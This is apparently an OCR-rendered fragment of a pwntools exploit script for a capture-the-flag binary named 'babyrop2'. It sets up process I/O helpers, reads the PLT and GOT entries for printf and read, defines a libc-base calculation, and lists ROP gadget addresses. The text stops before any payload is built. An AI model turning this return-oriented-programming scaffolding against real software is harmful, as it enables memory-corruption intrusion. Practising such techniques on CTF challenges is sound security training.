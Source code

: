 ```
  

# context.terminal = ['xterm', '-e']

def debug():

    attach(p)

  
  

#----------------------------------------------------

p,elf=init("./babyrop2",0,0)

log(1,1,1)

plt,got,sym=[elf.plt['printf'],elf.got['read'],elf.sym['main']]

# debug()

  

r = lambda x: p.recv(x)

ru = lambda str: p.recvuntil(str)

rul1 =lambda : u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))

rul2 = lambda : u32(p.recvuntil('\xf7')[-4:].ljust(4,b"\x00"))

rl = lambda : p.recvline()

# rul2 = lambda : u32(p.recv(4))

s = lambda str: p.send(str)

sl = lambda str: p.sendline(str)

sa = lambda a,b: p.sendafter(a,b)

sla = lambda a,b: p.sendlineafter(a,b)

libc_base = lambda addr,name:addr-libc.dump(name)

go = lambda : p.interactive()

  

# Gadgets information

# ============================================================

# 0x000000000040072c : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret

# 0x000000000040072e : pop r13 ; pop r14 ; pop r15 ; ret

# 0x0000000000400730 : pop r14 ; pop r15 ; ret

# 0x0000000000400732 : pop r15 ; ret

# 0x000000000040072b : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret

```
